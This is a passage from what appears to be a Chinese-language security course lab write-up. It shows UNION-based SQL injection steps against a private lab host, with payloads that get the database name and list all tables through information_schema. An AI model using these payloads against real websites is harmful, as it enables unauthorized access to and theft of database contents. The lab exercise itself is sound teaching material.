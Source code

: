      - d. 获取当前数据库名，浏览器地址栏输入
        ```bash
        192.168.56.101/cat.php?id=1 UNION SELECT  1,database(),3,4
        ```
        ![](/网络安全/chap0x07/images/2-7-C-D-1.png)

     - e. 检索数据库中所有表名，在浏览器地址栏输入
       ```bash
       192.168.56.101/cat.php?id=0 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
       ```
       ![](/网络安全/chap0x07/images/2-7-C-E-1.png)
       
